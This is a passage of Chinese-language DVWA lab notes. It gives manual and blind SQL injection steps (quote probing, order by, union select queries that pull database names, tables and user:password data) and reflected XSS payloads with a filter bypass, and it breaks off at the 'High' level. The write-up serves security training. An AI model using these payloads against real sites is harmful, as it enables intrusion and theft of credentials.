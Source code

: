 ```
Impossible:
    int型参数增加is_numeric判断，不接受其他字符串，避免了sql注入。并使用PDO绑定参数的方式查询数据库，十分安全。

PS:
    1. 数据库查询推荐使用PDO方式，$变量完全不出现在sql中；
    2. 参数要增加严格校验，及格式转换，只接受自己想要的参数；
    3. 不要相信任何的用户输入、SERVER变量、数据库查询出来的数据等；
    4. 等等...

```

**SQL手动注入方法简要说明：**
```
利用上面的漏洞，对sql手动注入简单记录一下, Low模式下：
1. 通过 id=1 和 id=1' 的展示不同判断是否存在漏洞；
2. 通过 id=1' and 1=1 -- - 和 id=1' and 1=0 -- - , 确认sql注入点[ and 1=0 ]出可以随意修改；
3. 通过order by 确认前面查询字段数。 id=1' order by [n] -- -，当n=3时报错，n=2时正常，说明共两个字段；
4. 先将前面的查询置为空，在通过union确定回显字段。 id=1' and 1=0 union select 1,2 -- - , 确定回显字段为1，2
5. 在union后构造查询语句，即可获取数据库信息，常用的有：
    //获取数据用户、数据库名
    union select concat(user(), @@version, database()), 2     
    //获取表名，users
    union select (select table_name from information_schema.TABLES where table_schema='dvwa' limit 1,1),2  
    //获取字段名  
    union select (select column_name from information_schema.columns where table_name='users' and table_schema='dvwa' limit 0,1),2   
    //获取表数据
    union select (select cancat(user,0x3a,password) from user limit 0,1),2  
    通过limit n,1逐条获取，或通过group_concat组联合查询查询多条数据。
```


### SQL Injection Blind   sql盲种
```
四个安全级别代码同上，漏洞也一样。只是没有内容回显，只有id是否存在的返回，不同通过union进行查询，修改修改注入手法。
```
**SQL盲种方法**
```
主要函数：length、 ascii、substr
1. 通过 id=1 和 id=1' 的展示不同判断是否存在漏洞；
2. 通过 id=1' and 1=1 -- - 和 id=1' and 1=0 -- - , 确认sql注入点[ and 1=0];
3. 通过暴力猜测，判断数据库名：
    1' and length(database())=[1-100] -- -           //获取数据库名长度为4
    1' and ascii(SELECT SUBSTR(database(),1,1)=[97-255] -- -  //通过是否相等获取字符的Ascii码，依次修改[1-4,1] 获取所有ascii码，最终获取数据名
    获取表名、字段名等同上。
```


### XSS Reflected 反射型跨站脚本
```
Low：
    用户参数直接显示在页面上，存在反射xss漏洞
    $html .= '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
    输入<script>alert(1);</script>，在F12-console中会有XSS拦截的反馈:
    The XSS Auditor blocked access to  'URL' because the source code of a script was found within the request.
    The auditor was enabled as the server did not send an 'X-XSS-Protection' header.

Medium：
    过滤了<script>标签，但是可以通过<img>、<ScrIpt>大小写区分 标签绕过去。
    <img src='1' onerror='alert(1)' />

High:
```